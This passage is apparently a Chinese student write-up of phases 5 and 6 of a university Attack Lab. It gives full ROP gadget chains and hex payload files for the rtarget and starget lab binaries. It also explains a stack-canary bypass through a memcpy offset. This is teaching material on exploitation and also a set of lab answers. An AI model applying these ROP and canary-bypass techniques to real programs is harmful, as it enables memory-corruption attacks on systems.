考虑将被加载进``popq``的偏移量存进别的寄存器中，首先考虑``%rsi``，查找``movl %eax,%esi``或``movq %rax,%rsi``。

查找``89 c[0-7]``得到``movl %eax,%ecx cmpb %cl,%cl ret``，它的地址为``0x4020d9``。

然后，查找是否存在``movl %ecx,%esi``或间接传递。

查找``89 ce``发现没有，于是转向间接传递，查找``89 c[89a-f]``得到``movl %ecx,%edx andb %cl,%cl ret``，它的地址为``0x401fef``。

接着，查找是否存在``movl %edx，%esi``，即``89 d6``，得到``movl %edx,%esi andb %bl,%bl ret``，它的地址为``0x4020c4``。

下面，由于``writeup``没有给出``leaq (%rdi,%rsi,1),?``的定义，不妨假设``?``为``%rax``(因为前面已经使用过``movq %rax,%rdi``了)，新建文件``p5.s``，写入``leaq (%rdi,%rsi,1),%rax``，运行以下指令：

```
gcc -c p5.s
objdump -d p5.o > p5.byte
```

查找它的编码``48 8d 04 37``，得到地址为``0x401fcf``。

加上之前查过的``movq %rax,%rdi``，再查找``touch3``的编码，得到它为``0x401e1e``。

最后，写上``cookie``转为字符串后的结果。

整合一下，编写为答案：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
da 1f 40 00 00 00 00 00
73 1f 40 00 00 00 00 00
bd 1f 40 00 00 00 00 00
?? 00 00 00 00 00 00 00
d9 20 40 00 00 00 00 00
ef 1f 40 00 00 00 00 00
c4 20 40 00 00 00 00 00
cf 1f 40 00 00 00 00 00
73 1f 40 00 00 00 00 00
1e 1e 40 00 00 00 00 00
32 33 61 38 64 61 36 31
```

然后，要计算``??``处的值，由它是原先栈顶指针到字符数组的偏移量，由于``da 1f 40``覆盖了返回地址，因此``ret``指令相当于把当前``gadget``的地址传进``rip``，同时``rsp+=8``，接着开始执行``movq %rsp,%rdx``，即``%rdx``得到的``%rsp``已经指向``0x401f73``这一行了，因此``??=72=0x48``。

将上述答案写入到``p5.txt``：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
da 1f 40 00 00 00 00 00
73 1f 40 00 00 00 00 00
bd 1f 40 00 00 00 00 00
48 00 00 00 00 00 00 00
d9 20 40 00 00 00 00 00
ef 1f 40 00 00 00 00 00
c4 20 40 00 00 00 00 00
cf 1f 40 00 00 00 00 00
73 1f 40 00 00 00 00 00
1e 1e 40 00 00 00 00 00
32 33 61 38 64 61 36 31
```

打开终端，运行下列指令：

```
./hex2raw < p5.txt > ans5.txt
./rtarget -i ans5.txt
```

得到以下输出，表示已经完成了``phase 5``：



### Phase 6
首先，运行下列指令，对``starget``进行反汇编，得到其汇编码文件:

```
objdump -d starget > starget.s
```

根据``writeup``，对于带有金丝雀值保护的``getbuf``函数，仍然可以造成栈溢出以进行``ROP``攻击，即栈溢出可以修改一些在栈中位置高于目标数组的局部变量。

在这个phase中，需要绕过金丝雀保护，从而实现在``phase 3``和``phase 5``的攻击效果。同时，``rtarget``与``starget``的代码片段库几乎相同，只是位置可能不同，可以直接使用在``rtarget``中找到的``gadget``。

由上面的陈述，先在``starget``中找到所需的``garget``（一个可以偷懒的点是，事实上``starget``中的每个``gadget``只是相对``rtarget``平移了7个字节）：

```
e1 1f 40 00 00 00 00 00
7a 1f 40 00 00 00 00 00
c4 1f 40 00 00 00 00 00
48 00 00 00 00 00 00 00
e0 20 40 00 00 00 00 00
f6 1f 40 00 00 00 00 00
cb 20 40 00 00 00 00 00
d6 1f 40 00 00 00 00 00
7a 1f 40 00 00 00 00 00
25 1e 40 00 00 00 00 00
32 33 61 38 64 61 36 31
```

阅读``test2``函数的源码，可以发现它调用了新的读取函数``getbuf_withcanary``：

```asm
0000000000401eca <test2>:
  401eca:	f3 0f 1e fa          	endbr64
  401ece:	48 83 ec 08          	sub    $0x8,%rsp
  401ed2:	b8 00 00 00 00       	mov    $0x0,%eax
  401ed7:	e8 1d 00 00 00       	call   401ef9 <getbuf_withcanary>
  401edc:	89 c2                	mov    %eax,%edx
  401ede:	48 8d 35 3b 23 00 00 	lea    0x233b(%rip),%rsi        # 404220 <_IO_stdin_used+0x220>
  401ee5:	bf 02 00 00 00       	mov    $0x2,%edi
  401eea:	b8 00 00 00 00       	mov    $0x0,%eax
  401eef:	e8 9c f2 ff ff       	call   401190 <__printf_chk@plt>
  401ef4:	48 83 c4 08          	add    $0x8,%rsp
  401ef8:	c3                   	ret
```

接着阅读``getbuf_withcanany``的源码：

```asm
0000000000401ef9 <getbuf_withcanary>:
  401ef9:	55                   	push   %rbp # 压入%rbp原值
  401efa:	48 89 e5             	mov    %rsp,%rbp # %rbp=%rsp
  401efd:	48 81 ec 20 01 00 00 	sub    $0x120,%rsp # %rsp-=288
  401f04:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax #%rax=金丝雀
  401f0b:	00 00 
  401f0d:	48 89 45 f8          	mov    %rax,-0x8(%rbp) # 金丝雀存在%rsp+280
  401f11:	31 c0                	xor    %eax,%eax # %eax置零
  401f13:	c7 45 e4 00 00 00 00 	movl   $0x0,-0x1c(%rbp) #(%rsp+260)=0 
  401f1a:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax # %rax=%rsp+128
  401f21:	48 89 c7             	mov    %rax,%rdi # %rdi=rax
  401f24:	e8 bd 02 00 00       	call   4021e6 <Gets> # 调用gets函数，缓冲区从%rsp+128处开始
  401f29:	8b 45 e4             	mov    -0x1c(%rbp),%eax # %eax=%rsp+260
  401f2c:	48 98                	cltq # %rax自身拓展
  401f2e:	48 8d 95 e0 fe ff ff 	lea    -0x120(%rbp),%rdx # %rdx=(%rsp)
  401f35:	48 8d 0c 02          	lea    (%rdx,%rax,1),%rcx # %rcx=%rsp+%rax，%rax应该是个偏移量
  401f39:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax # %rax=%rsp+128
  401f40:	ba 80 00 00 00       	mov    $0x80,%edx # %edx=128
  401f45:	48 89 c6             	mov    %rax,%rsi # %rsi=%rsp+128
  401f48:	48 89 cf             	mov    %rcx,%rdi # %rdi=%rsp+offset
  401f4b:	e8 f0 f1 ff ff       	call   401140 <memcpy@plt> # 调用memcpy函数
  401f50:	b8 01 00 00 00       	mov    $0x1,%eax # %eax=1
  401f55:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi # 检验金丝雀值是否改变
  401f59:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  401f60:	00 00 
  401f62:	74 05                	je     401f69 <getbuf_withcanary+0x70>
  401f64:	e8 6c 07 00 00       	call   4026d5 <__stack_chk_fail>
  401f69:	c9                   	leave
  401f6a:	c3                   	ret
```

查询``memcpy``函数的相关资料，得知其依次接受三个地址``目标地址%rdi,源地址%rsi,长度%rdx``。

```c
void *memcpy(void *str1, const void *str2, size_t n)
```

于是，原代码中的``memcpy``函数含义为，从``rsp+128(缓冲区)``起始处，复制``128``个字节，到``%rsp+offset``处。

要绕开金丝雀值，就需要通过这条``memcpy``指令，将所用的攻击代码，直接复制到返回地址处，画出此时的栈帧，大致如下。

```
|  返回地址    |
--------------- 296
|  %rbp原值    |
--------------- 288 <-- %rbp
|  金丝雀值    |
--------------- 280
|  未知字节    |
--------------- 264
|  offset     |
--------------- 260 
|  缓冲区输入  |
--------------- 128
|  未知字节    |
--------------- 0 <-- %rsp
```

因此，只需让``攻击代码``存在缓冲区的最开始，由于``攻击代码``的字节长度为``88字节``，因此不可能出现无法完全复制的情况。

而可以得出，此时的``offset``应为``296``，即``0x128``。

对过多的部分补零，得到以下答案(注意``小端法``存储)：

```
e1 1f 40 00 00 00 00 00
7a 1f 40 00 00 00 00 00
c4 1f 40 00 00 00 00 00
48 00 00 00 00 00 00 00
e0 20 40 00 00 00 00 00
f6 1f 40 00 00 00 00 00
cb 20 40 00 00 00 00 00
d6 1f 40 00 00 00 00 00
7a 1f 40 00 00 00 00 00
25 1e 40 00 00 00 00 00
32 33 61 38 64 61 36 31
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 28 01 00 00
```

将它写入``p6.txt``中，打开终端，运行以下指令：

```
./hex2raw < p6.txt > ans6.txt
./starget -i ans6.txt
```

得到以下输出，表示已经完成了``phase 6``：



于是，完成了ICS的第三个Lab，Congratulations!

## 参考文献
[Arthals-更适合北大宝宝体质的Attack Lab踩坑记](https://arthals.ink/blog/attack-lab)